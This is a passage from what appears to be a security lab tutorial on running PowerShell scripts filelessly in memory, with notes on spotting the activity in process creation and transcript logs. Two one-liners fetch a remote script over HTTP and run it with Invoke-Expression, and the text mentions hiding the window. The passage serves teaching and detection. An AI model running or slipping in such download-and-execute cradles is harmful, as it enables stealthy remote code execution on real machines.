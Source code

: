 Now we'll take the same technique but load the file into memory from over the network, without storing anything to disk.  The following PowerShell one-liner will be used:

```powershell
(New-Object Net.WebClient).DownloadString("http://10.0.0.100:8000/GoTeam_api.ps1") | IEX
```

<br>

This command downloads the `GoTeam_api.ps1` script into memory and runs it with Invoke-Expression (IEX).

To demonstrate, host the `GoTeam_api.ps1` script on your Ubuntu host by placing it in the `/tmp` directory and typing in the console `cd /tmp && python -m SimpleHTTPServer`.  This will start a Python web server running out of the `/tmp` directory allowing you to make a HTTP request for the file with your Windows host.

Make sure to substitute `10.0.0.100` with the IP address of your Ubuntu host.

When the PowerShell command is run, the script is downloaded into memory and begins running the embedded .NET program:

![](images/Review%20of%20Windows%20Scripting%20Technologies/image030.png)<br><br>

Neither the `GoTeam_api.ps1` script or the `GoTeam_api.exe` program are available for inspection on disk, but are able to run in memory inside the `powershell.exe` process.

The most common scenario involving this technique is a client application that starts a PowerShell process to run the command.  To simulate this, kill all `powershell.exe` processes , open `cmd.exe` and create a PowerShell process to run the command with:

```
powershell -c "(New-Object Net.WebClient).DownloadString('http://10.0.0.100:8000/GoTeam_api.ps1') | IEX"
```

<br>

This can even be performed while making the PowerShell window hidden, but evidence of the files running can still be found in Process Creation logs:

![](images/Review%20of%20Windows%20Scripting%20Technologies/image032.png)<br><br>

And transcript logging:

![](images/Review%20of%20Windows%20Scripting%20Technologies/image033.png)<br><br>
